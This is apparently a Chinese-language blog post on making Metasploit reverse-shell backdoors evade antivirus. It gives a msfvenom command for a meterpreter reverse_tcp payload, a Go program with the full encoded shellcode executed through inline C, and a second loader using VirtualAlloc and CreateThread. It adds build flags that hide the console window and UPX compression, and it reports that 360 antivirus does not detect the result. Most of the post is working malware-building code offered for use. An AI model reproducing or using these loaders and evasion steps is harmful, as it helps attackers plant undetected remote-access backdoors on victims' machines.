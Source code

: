 ```yaml
---
title: 关于msf反弹后门的免杀Tips
date: 2017-04-20 13:09:24
tags:
- Hacker
categories:
- Hacker
---
```


msf是一个很强大的工具，我经常会在渗透用它来反弹shell，不过它生成的反弹后门会被不少杀软kill，这篇文章只是讲讲我在msf中一个简单的免杀小技巧
<!--more-->
## 思路
我以前接触过一款python的远控，其实说是远控，基本也就是nc的功能加了一个服务端的web页面控制并加了一些其他的功能可以用来管理诸多客户机
这款远控我下载下来用过，并用pyinstaller打包成了exe（缺点是体积太过庞大），惊奇的是，360不杀它，然后自己想着其他语言是不是也会这样，于是我用golang写了一个简易版nc反弹，编译之后，也是不查杀的。python和golang有一个共同点，就是可以用来内联C编程，所以C语言的shellcode按理说应该会达到同样的效果

## 得到shellcode
```bash
msfvenom -p windows/meterpreter/reverse_tcp LPORT=5555 LHOST=192.168.1.100 -e x86/shikata_ga_nai -i 11 -f py > 1.py
```
建议是生成32位的，如果想生成64位也可以，`-e x86/shikata_ga_nai -i 11`是指用`x86/shikata_ga_nai`编码迭代11次，然后生成py文件
py文件打开是shellcode，我们接下来对它进行一点小改造，对于python去执行shellcode的方法，相信小伙伴都已经不陌生，在《python灰帽子》中有讲解，我今天要使用的是golang，其实个人认为golang执行shellcode的代码是更简洁的

## Golang环境搭建
安装Golang32位（建议32位，与前面对应，在测试过程中，如果32位shellcode配合64位golang加32位gcc，就算把golang的GOARCH改为386也依旧会失败，建议一一对应），安装gcc32位（可以使用[TDM-GCC](http://tdm-gcc.tdragon.net/download)）

## 代码编写
```Golang
package main

/*
void call(char *code) {
    int (*ret)() = (int(*)())code;
    ret();
}
*/
import "C"
import "unsafe"

func main() {
    buf := ""
    buf += "\xdd\xc6\xd9\x74\x24\xf4\x5f\x33\xc9\xb8\xb3\x5e\x2c"
    buf += "\xc9\xb1\x97\x31\x47\x1a\x03\x47\x1a\x83\xc7\x04\xe2"
    buf += "\x46\x84\xfd\x72\xee\x0e\xb5\x96\x37\x04\x6d\x63\x9f"
    buf += "\xcc\xa4\x3a\x8e\x8c\xf7\x39\x81\xca\xe4\x42\xff\xce"
    buf += "\xa3\xa2\xdb\x06\xc0\x3f\xaf\x41\x73\xba\xf7\x20\x13"
    buf += "\x98\x8c\xff\xfa\x0a\xda\x6e\xf2\x6d\xc3\x81\x07\xc0"
    buf += "\x1b\x37\xeb\xa2\xa9\x32\x71\xaf\xe9\x20\xd1\xaa\x9e"
    buf += "\xbd\x82\xf3\x81\x1f\xab\xbf\xc4\xd9\x6c\x75\x37\x3a"
    buf += "\x53\x78\x90\x79\xaf\x93\x1b\xb3\x15\x09\xe5\x45\x5c"
    buf += "\x26\x0f\x0d\x16\x52\xf1\x8a\x7e\x8b\xc4\x50\x8e\x0a"
    buf += "\x38\x2f\x2b\x40\x73\x0b\xf0\x51\x5f\xc6\xbf\x04\x47"
    buf += "\x80\x36\xe5\x88\x88\xb3\xfc\xa0\x52\xfe\x92\x81\x8d"
    buf += "\x89\xf2\x6a\xcc\x7f\x9a\xe9\x1a\x30\x73\xa3\x63\x42"
    buf += "\x10\xe9\xcf\x62\xe4\x06\x52\xe1\x8d\x88\xfe\x52\xc4"
    buf += "\xc3\xed\x7a\x0e\x66\x5f\x8c\x2c\xef\xfa\xbd\x8c\x79"
    buf += "\x6c\x01\xe3\x5c\xde\xc4\x8a\x4c\x7d\x34\x32\xb5\x23"
    buf += "\x56\x6c\x52\x3f\x15\x26\x6a\xf8\x6b\x81\x2c\x23\x8d"
    buf += "\x41\x6e\x24\x30\xc6\xcb\xba\x26\xd4\x3b\x37\xd3\xc6"
    buf += "\xa8\x5a\x16\x8f\x1e\x27\xca\xcb\xda\x7f\x74\x62\xb2"
    buf += "\x62\xa6\xb1\xfc\x64\x53\x3a\xa7\xa4\x21\x3d\x79\x08"
    buf += "\x06\x74\x2a\xa2\xe7\x0d\x68\x16\xa3\x96\xe5\xad\x32"
    buf += "\x10\xa3\x0f\x49\xc3\x69\xa7\x5b\x61\x1a\xf8\x1d\x9e"
    buf += "\x9b\x3a\x00\xfc\x18\xc3\x42\x1a\xd6\x44\x5d\xfe\xc5"
    buf += "\xb6\x68\xd2\xad\x24\xda\x74\xa7\xf3\x66\x9a\x42\x7a"
    buf += "\x50\xf0\x0b\x47\xbc\xad\x6c\x1e\xca\xbe\x90\xca\xc3"
    buf += "\x8e\x5b\xde\x66\xe2\xb3\x20\x6f\x38\x17\xc1\xac\xfb"
    buf += "\xd3\x2f\x91\xa7\xff\x65\xd7\xd0\x25\x4c\xd4\xb3\x35"
    buf += "\x38\xa1\x82\xb8\x23\x42\xe9\xa5\x95\x8e\xc4\x35\xca"
    buf += "\x92\xfe\xde\x62\x70\xd6\x7a\x7f\xfd\xfb\xf0\x24\xbd"
    buf += "\x5d\x6d\x3d\x13\xbc\x1d\x25\x54\x9d\x0e\x68\xc8\x9a"
    buf += "\x10\x87\xf0\xc9\xac\x37\x57\x84\x23\x5f\x8a\xc0\xab"
    buf += "\x52\x6e\xae\x79\xa2\xdb\xff\xd8\x41\x28\x8b\xd3\x9d"
    buf += "\x68\x3c\x55\xf2\xfe\x0c\x8a\x38\xdf\xb3\x80\x9b\x70"
    buf += "\x2b\x4e\xe1\xfa\x0b\xfe\xf5\xc3\x1a\x0d\x83\xb0\x69"
    buf += "\xd0\x68\xfb\xe0\xae\xbd\x56\x52\x17\x9a\xf8\x8f\xc0"
    buf += "\x14\x8c\xb0\xf7\x0e\x87\xfa\x54\xf4\x04\x4a\x5a\xc8"
    buf += "\x89\x57\x0e\xbf\x7a\x76\x9b\xfe\xb8\x5f\x31\x42\xec"
    buf += "\xaf\x18\x9e\x3f\xf0\x09\x79\x86\xb3\x08\x29\x50\xfd"
    buf += "\xc3\x46\x7d\x24\x51\x5b\xd0\x81\x19\x6f\xc2\x2c\x17"
    buf += "\xab\xa3\xb7\xd9\x6f\x82\xd9\x37\x5f\x38\x01\xd8\xfd"
    buf += "\xfd\x11\x22\x61\xd0\x92\x45\x37\x4f\x6c\x4e\x91\x3b"
    buf += "\x42\x07\xc5\x77\xdc\x52\xd6\xc7\x9d\x7b\x62\xba\x1c"
    buf += "\x62\x3c\xde\xad\x96\x03\x55\xde\x9d\x52\x5c\x5d\x0c"
    buf += "\x73\x0e\xc3\x4c\xae\x7d\x1c\x7c\x64\xaf\xbb\xce\xa6"
    buf += "\x02\x0e\xb1\x51\xc4\x2d\x1b\x6b\xb7\x7c\xd9\x4b\xc3"
    buf += "\x8c\x43\xd6\x1b\x2a\x4f\x5e\x0a\x9a\xd5\x4d\x45\x64"
    buf += "\x6c\x0c\xc8\xf5\x59\xd7\x45\x36\x85\x99\x8d\x34\x65"
    buf += "\x21\xd3\x3b\x35\xce\x22\x29\x0c\x4e\xca\x48\x3f\x55"
    buf += "\x5d\x1b\xda\x35\xc1\x2d"
    // at your call site, you can send the shellcode directly to the C
    // function by converting it to a pointer of the correct type.
    shellcode := []byte(buf)
    C.call((*C.char)(unsafe.Pointer(&shellcode[0])))
}
```
以上就是全部代码
其实Golang还有个执行shellcode的方法是不用内联C语言的，但是我这边测试能接到反弹shell，但是执行命令会直接断开，代码我也贴出来
```Golang
package main

import (
    "syscall"
    "unsafe"
)

func ThreadExecute(Shellcode []byte) {
    var K32 = syscall.MustLoadDLL("kernel32.dll")
    var CreateThread = K32.MustFindProc("CreateThread")
    var VirtualAlloc = K32.MustFindProc("VirtualAlloc")
    var WaitForSingleObject = K32.MustFindProc("WaitForSingleObject")

    Addr, _, _ := VirtualAlloc.Call(0, uintptr(len(Shellcode)), MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE)
    AddrPtr := (*[990000]byte)(unsafe.Pointer(Addr))

    for i := 0; i < len(Shellcode); i++ {
        AddrPtr[i] = Shellcode[i]
    }

    ThreadAddr, _, _ := CreateThread.Call(0, 0, Addr, 0, 0, 0)
    WaitForSingleObject.Call(ThreadAddr, 0xFFFFFFFF)
}
```
关于断开的原因，希望找出原因的能告知我一下，其实我们会发现，内联C是比较简单的

## 杀毒测试
在代码所在目录cmd执行`go build`得到二进制文件（或者可以用`go build -ldflags="-s -w"`减小体积，`go build -ldflags="-H windowsgui -s -w"`去掉命令窗口）
![](https://ooo.0o0.ooo/2017/04/20/58f840f0e9a00.png)
![](https://ooo.0o0.ooo/2017/04/20/58f840f8a704c.png)

可以看到360的静态查杀和动态查杀都没有发现
那么是否正常工作呢
![](https://ooo.0o0.ooo/2017/04/20/58f840f6d4862.png)

可以看到完全是没问题的，体积比python编译出来的小的多，编译出来是500多kb，然后经过upx压缩了一下（测试upx压缩后功能依旧正常），降低到了200多kb
![](https://ooo.0o0.ooo/2017/04/20/58f840dbdc23f.png)

## 视频
{% owl bilibili 9975200 %}